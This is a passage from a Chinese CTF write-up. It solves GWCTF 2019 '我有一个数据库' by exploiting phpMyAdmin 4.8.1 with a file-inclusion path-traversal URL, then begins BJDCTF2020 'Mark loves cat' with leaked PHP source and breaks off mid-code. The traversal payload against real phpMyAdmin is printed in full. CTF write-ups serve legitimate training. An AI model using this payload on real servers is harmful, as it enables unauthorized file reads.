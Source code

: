 成功获取`flag`

## [GWCTF 2019]我有一个数据库

进来没找到什么东西，扫目录发现`phpmyadmin`和`phpinfo.php`

`phpinfo.php`没啥东西，看看`phpmyadmin`

发现`phpmyadmin`的版本为`4.8.1`

![image-20231113103000681](.\img\11-1.png)

搜索一下有没有历史漏洞

文件包含获取`flag`

```
:81/phpmyadmin/index.php?target=db_sql.php%253f/../../../../../../../../flag
```

## [BJDCTF2020]Mark loves cat

`git泄露`

`githacker`获取源码

```php
<?php

include 'flag.php';

$yds = "dog";
$is = "cat";
$handsome = 'yds';

foreach($_POST as $x => $y){
    $$x = $y;
}

foreach($_GET as $x => $y){
    $$x = $$y;
}

foreach($_GET as $x => $y){
    if($_GET['flag'] === $x && $x !== 'flag'){
```
